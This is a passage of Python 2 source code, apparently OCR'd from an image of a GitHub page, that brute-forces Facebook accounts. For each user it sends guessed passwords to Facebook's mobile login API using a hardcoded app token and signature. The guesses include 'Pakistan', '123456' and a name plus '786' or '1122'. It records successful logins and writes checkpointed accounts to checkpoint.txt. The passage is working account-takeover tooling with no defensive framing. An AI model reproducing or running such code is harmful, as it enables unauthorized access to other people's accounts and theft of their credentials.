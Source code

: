 						else:
							if "www.facebook.com" in q["error_msg"]:
								print "[Checkpoint] " + user + " | " + pass3
								cps = open("checkpoint.txt", "a")
								cps.write(user+"|"+pass3+"\n")
								cps.close()
								cpb.append(user+pass3)
							else:
								pass4 = "Pakistan"
								data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass4 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
								q = json.load(data)
								if "access_token" in q:
									print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass4
									oks.append(user+pass4)
								else:
									if "www.facebook.com" in q["error_msg"]:
										print "[Checkpoint] " + user + " | " + pass4
										cps = open("checkpoint.txt", "a")
										cps.write(user+"|"+pass4+"\n")
										cps.close()
										cpb.append(user+pass4)
									else:
										pass5 = c + "786"
										data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass5 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
										q = json.load(data)
										if "access_token" in q:
											print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass5
											oks.append(user+pass5)
										else:
											if "www.facebook.com" in q["error_msg"]:
												print "[Checkpoint] " + user + " | " + pass5
												cps = open("checkpoint.txt", "a")
												cps.write(user+"|"+pass5+"\n")
												cps.close()
												cpb.append(user+pass5)
											else:
												pass6 = "123456"
												data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass6 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
												q = json.load(data)
												if "access_token" in q:
													print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass6
													oks.append(user+pass6)
												else:
													if "www.facebook.com" in q["error_msg"]:
														print "[Checkpoint] " + user + " | " + pass6
														cps = open("checkpoint.txt", "a")
														cps.write(user+"|"+pass6+"\n")
														cps.close()
														cpb.append(user+pass6)
													else:
														pass7 = c + "1122"
														data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass7 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
														q = json.load(data)
														if "access_token" in q:
															print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass7
															oks.append(user+pass7)